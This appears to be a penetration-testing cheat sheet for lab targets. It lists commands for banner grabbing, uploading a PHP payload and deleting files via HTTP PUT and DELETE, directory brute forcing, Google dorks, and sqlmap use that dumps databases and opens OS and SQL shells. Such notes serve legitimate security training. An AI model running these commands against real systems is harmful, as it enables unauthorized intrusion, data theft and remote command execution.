

# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\)

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\)

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

```bash
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs

`GET,  POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning

### Dirbuster



1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt` 
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Oprions -&gt; Advanced Options -&gt; Authentication options\]

### dirb

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

## Google Dorks

`site:  
intitle:  
inurl:  
filetype:  
AND, OR & |  
-`

[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross Site Scripting\)

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload. 

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST

Find the parameters that are being passed in POST using BurpSuite.  
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find it on it's own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

